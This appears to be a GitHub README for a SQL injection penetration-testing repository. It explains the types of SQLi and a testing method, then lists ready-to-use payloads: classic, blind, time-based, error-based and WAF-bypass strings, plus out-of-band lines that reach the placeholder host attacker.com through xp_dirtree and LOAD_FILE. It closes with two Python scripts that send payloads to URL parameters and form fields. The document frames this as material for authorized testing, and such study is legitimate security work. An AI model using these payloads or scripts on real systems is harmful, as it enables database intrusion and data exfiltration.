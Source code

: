 # 💉 SQL Injection (SQLi) - Penetration Testing Resource

## 📌 Table of Contents

- [About](#about)
- [Types of SQL Injection](#types-of-sql-injection)
- [Testing Methodology](#testing-methodology)
- [Payload Categories](#payload-categories)
  - [Classic Injection](#classic-injection)
  - [Blind SQL Injection](#blind-sql-injection)
  - [Time-Based Injection](#time-based-injection)
  - [Error-Based Injection](#error-based-injection)
  - [Out-of-Band Injection](#out-of-band-injection)
  - [WAF Bypass](#waf-bypass)
- [Tools](#tools)
- [Manual Testing Checklist](#manual-testing-checklist)
- [Automation Scripts](#automation-scripts)
- [Learning Labs](#learning-labs)
- [References](#references)
- [Legal Disclaimer](#legal-disclaimer)
- [Author](#author)

---

## 🧠 About

SQL Injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This repo is created for penetration testers, red teamers, and cybersecurity researchers to help detect and exploit SQL injection vulnerabilities during authorized testing engagements.

---

## 🧬 Types of SQL Injection

| Type                     | Description |
|--------------------------|-------------|
| Classic SQLi             | Injection that directly manipulates SQL queries via user input |
| Blind SQLi               | No direct output from database, attacker infers logic via true/false responses |
| Error-Based SQLi         | Exploits verbose error messages to gather database information |
| Time-Based Blind SQLi    | Infers responses by forcing delays (e.g., SLEEP) |
| Out-of-Band SQLi         | Uses alternate channels (e.g., DNS, HTTP) for data exfiltration |
| Second-Order SQLi        | Malicious input stored and later executed in a different context |

---

## 🧪 Testing Methodology

1. **Reconnaissance**
   - Crawl the application
   - Identify input points (forms, URLs, headers)

2. **Inject Test Payloads**
   - `' OR '1'='1`
   - `--`, `#`, `/* */` to terminate queries

3. **Observe Behavior**
   - Errors, unexpected behavior, delays

4. **Escalate**
   - Try to extract database names, table structures, data

5. **Automation**
   - Use `sqlmap` or scripts for faster exploitation

---

## 🚀 Payload Categories

### 🔹 Classic Injection
sql
' OR '1'='1' --
' OR 1=1#
admin' --
' OR '' = '
### 🔹 Blind SQL Injection
' AND 1=1 --  (TRUE)
' AND 1=2 --  (FALSE)

' AND ASCII(SUBSTRING(@@version, 1, 1))=77 -- (Check first letter of version)
###🔹 Time-Based Injection
'; IF(1=1) WAITFOR DELAY '0:0:5' --
'; SLEEP(5) --
' AND IF(1=1, SLEEP(5), 0) --
### 🔹 Error-Based Injection
' AND 1=CONVERT(int, (SELECT @@version))--
' OR (SELECT 1/0)--
###🔹 Out-of-Band Injection
'; exec master..xp_dirtree '//attacker.com/test' --
'; LOAD_FILE('\\\\attacker.com\\file') --
###🔹 WAF Bypass
' OR 1=1-- 
' oR 1=1-- 
'/*!50000OR*/1=1--
' OR 1=1 LIMIT 1--
%27%20OR%201=1--


## 🛠️ Tools
Burp Suite – Manual testing, Repeater, Intruder, Collaborator

SQLMap – Automated SQL injection and database takeover

NoSQLMap – Testing NoSQL injections

Postman – API SQLi

Nmap – Service detection

ffuf / wfuzz – Fuzzing endpoints

✅ Manual Testing Checklist
Step	Test	Payload Example
✅	Basic Injection	' OR '1'='1
✅	Input Field	Inject single '
✅	Boolean Test	' AND 1=1 -- vs ' AND 1=2 --
✅	Time-Based	' AND SLEEP(5)--
✅	Header Injection	User-Agent: ' OR 1=1--
✅	Cookie Injection	Set-Cookie: ID=1' OR '1'='1
✅	Error Feedback	Trigger with ' or "
✅	Bypass Filters	Obfuscate keywords with case or comments

## Automation Scripts
### sqli_scanner.py
import requests

URL = "http://target.com/page?id="
payloads = ["1'", "' OR '1'='1", "'; WAITFOR DELAY '0:0:5'--"]

for payload in payloads:
    target = URL + payload
    r = requests.get(target)
    print(f"[+] {payload} => {r.status_code} | {len(r.text)} chars")
### form_fuzzer.py
from bs4 import BeautifulSoup
import requests

url = "http://target.com/formpage"
payload = "' OR 1=1--"
session = requests.Session()

r = session.get(url)
soup = BeautifulSoup(r.text, 'html.parser')
form = soup.find('form')
action = form.get('action')
inputs = form.find_all('input')

data = {inp.get('name'): payload for inp in inputs if inp.get('name')}
post_url = url + action
resp = session.post(post_url, data=data)
print(resp.text)
